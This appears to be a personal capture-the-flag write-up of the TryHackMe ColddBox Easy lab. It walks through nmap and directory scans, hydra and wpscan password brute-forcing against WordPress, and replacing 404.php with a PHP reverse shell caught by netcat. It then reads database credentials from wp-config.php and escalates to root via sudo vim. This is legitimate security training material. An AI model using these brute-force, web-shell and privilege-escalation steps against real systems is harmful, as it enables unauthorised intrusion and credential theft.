 ### Nmap

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine

4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


```
PORT     STATE SERVICE
80/tcp   open  http
4512/tcp open  unknown
```

### HTTP

- feroxbuster gives
```
301        9l       28w      317c http://10.10.75.136/wp-content
301        0l        0w        0c http://10.10.75.136/index.php
200       65l      187w     2547c http://10.10.75.136/wp-login.php
301        9l       28w      318c http://10.10.75.136/wp-includes
200       95l      835w     7173c http://10.10.75.136/readme.html
200        5l       15w      135c http://10.10.75.136/wp-trackback.php
301        9l       28w      315c http://10.10.75.136/wp-admin
301        9l       28w      313c http://10.10.75.136/hidden
```

- interesting ones are
/wp-loign.php
/hidden

```
U-R-G-E-N-T 
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

/wp-includes/


- I am struggling to get the login cred's here, finding nothing in these resources
- Used this writeup https://apjone.uk/tryhackme-colddboxeasy/


- Used this hydra command as per the write up

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/colddbox]
└──╼ $hydra -L wpusers -P /usr/share/wordlists/rockyou.txt 10.10.75.136 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
```

- THis was taking a lot of time so start another attack vector using wpscan

```
wpscan --no-banner --url http://10.10.214.134 --usernames hugo,c0ldd,philip --passwords /opt/rockyou.txt
```
- this was also taking a lot of time, post that i had multiple ways to get a shell, 1st is changeing the contents of 404.php to php reverse shell

- I used multiple writeups to find which is the bet way to get the creds, One of the reference password lists I found are `SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt`

```
─[✗]─[glack@parrot]─[~]
└──╼ $wpscan --no-banner --url http://10.10.75.136 --usernames hugo,c0ldd,philip --passwords /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

- it was still taking lot of time so used the writeup for cred and they are
```
c0ldd
9876543210
```

### Shell

- Here we can edit the 404.php login page with our custom one, and so i replaced current one with php-pentestmoneky-reverse-shell.php 
- It did not working and i was relying on the write up too much , will continue this tomorrow

- Continuing where i left off, changed the conents of 404.php but with port 9992 this time


- After this i went on the main page `http://10.10.75.99/` and clicked on `# The ColddBox is here`. The url changed to `http://10.10.75.99/?p=1`, but since i wanted to generate an error 404 so the server processes the reverse shell that i injected i changed the url to `http://10.10.75.99/?p=2`
- started a netcat listener and got a shell

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Priv Esc

- Looking around i find this in `www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php`
```
** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```

- tried this password for user c0ldd and it worked
```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
su c0ldd
Password: cybersecurity

c0ldd@ColddBox-Easy:/var/www/html$ 
```

- found the user flag
```
c0ldd@ColddBox-Easy:~$ cat user.txt
cat user.txt
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```

- user is able to run these binaries as sudo

```
(root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp

```


- i used the [[Sudo - NOPASSWD vi filename]] method to get root and the flag

```
root@ColddBox-Easy:/root# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

```

